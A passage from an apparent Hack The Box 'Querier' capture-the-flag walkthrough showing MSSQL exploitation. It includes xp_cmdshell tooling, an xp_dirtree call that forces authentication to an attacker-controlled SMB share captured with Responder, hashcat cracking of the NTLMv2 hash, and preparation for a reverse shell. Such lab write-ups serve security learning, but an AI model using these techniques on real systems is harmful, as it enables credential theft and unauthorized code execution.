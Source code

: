 ```
     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

When we run the `enable_xp_cmdshell` command as the `reporting` user, we see that the user doesn't have the needed permissions to enable the stored procedure. Specifically, they can't issue the `RECONFIGURE` command, which allows us to change the needed settings to enable `xp_cmdshell`.

![](/assets/htb-querier/reporting_no_xp_cmdshell.png)

### Capturing user hash with `xp_dirtree` and `responder`

So at this point, we're kind of back to square one right? Well, not really. MSSQL server also gives us a cool function called `xp_dirtree`. This function allows us to list out the contents of a local or network folder, directly from MSSQL. With this, we can setup a `Responder` session to spoof a network share and capture the NTLM hash, and use `xp_dirtree` to request the share.

First, setup `Responder` with `responder.py -I tun0`. This will setup a listener on the `tun0` interface, which will listen for any SMB request, and capture the hash of the requesting machine.

Once that's setup, run the command `xp_dirtree '//10.10.14.4/testshare'` in the SQL command prompt to kick off the `xp_dirtree` function. Now you'll see that `responder` has captured the hash for the `mssql-svc` user!

> Note that `responder` listens for connections to any share name on the IP address it's assigned. So the share name you use doesn't matter at all.

<a href="/assets/htb-querier/responder_hash.png"><img src="/assets/htb-querier/responder_hash.png" width="95%"></a>

Copy the entire hash to a file. We need to run this through `hashcat` to crack the NTLMv2 hash for the password. The command `hashcat -m 5600 loot/mssql-svc_hash /data/rockyou.txt` will kick off the cracking process. It will return a password of `corporate568`.

> Sorry I don't have a screenshot of the `hashcat` process. My host PC wasn't co-operating with the tool when writing this, so I wasn't able to grab a screenshot of the tool in action.

### Using `xp_cmdshell` to get a reverse shell

Now that we have a proper username and password, we can go back to the SQL client to try for `xp_cmdshell` again.

The command `mssqlclient.py QUERIER/mssql-svc@10.10.10.125 -windows-auth` will kick off a new SQL client session as `mssql-svc`. Running `enable_xp_cmdshell` again shows that we can now properly enable the function, and use it to execute code on the system.

